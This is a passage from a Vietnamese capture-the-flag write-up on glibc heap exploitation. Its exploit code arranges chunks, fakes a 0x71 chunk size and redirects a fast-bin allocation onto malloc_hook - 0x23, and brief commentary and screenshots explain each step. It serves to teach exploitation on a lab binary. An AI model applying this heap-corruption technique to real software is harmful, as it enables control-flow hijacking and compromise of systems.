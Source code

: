 ```c 
add(0x78,b'aaaa',b'aaaa') # 11
add(0x100,b'bbbb',b'bbbb') # 12
add(0x100,b'eeee',b'eeee') # 13
add(0x100,b'cccc',b'cccc') # 14
add(0x100,b'dddd',b'dddd') # 15

delete(12) 
delete(13)
delete(11)

add(0x78,b'aaaa',b'a' * 0x78) # 11
add(0x80,b'bbbb',b'bbbb') # 12
add(0x100,b'eeee',b'eeee') # 13 

delete(12)
delete(14)
``` 
- lúc này chunk 13 chưa free nhưng mà nằm trong ubin, ta sẽ fake size nó thành 0x71 , lý do tại sao lại là 0x71 thì đọc ở link trên 

```c 
payload = flat(
    b'a'*0x80, 
    0,0x71, 
    b'b'*0x60,
    0, 0x71
    ) 
 
add(0x100,b'aaaa', payload) # 12
``` 
- ta thử free chunk 13 xem sao 

![image](https://github.com/gookoosss/CTF/assets/128712571/011f9b97-b245-457d-8b47-a6982cd2339a)


- chunk 13 hiện đang trỏ tới 0x0, ta sẽ ow chunk 13 để trỏ đến malloc-hook - 0x23, lý do tại sao thì đơn giản là set size 0x7f cho chunk, tương ứng với size 0x71 của fast bins 

![image](https://github.com/gookoosss/CTF/assets/128712571/20c7477c-20da-47bd-bbc4-ec74b4638177)


```c 
payload = flat(
    b'a'*0x80, 
    0,0x71, 
    fake_chunk,
    b'b'*0x58,
    0, 0x71
    ) 

add(0x100,b'aaaa', payload) # 12
``` 

- lúc này vào xem bin thì malloc_hook - 0x23 đã nằm gọn trong fast bin rồi 
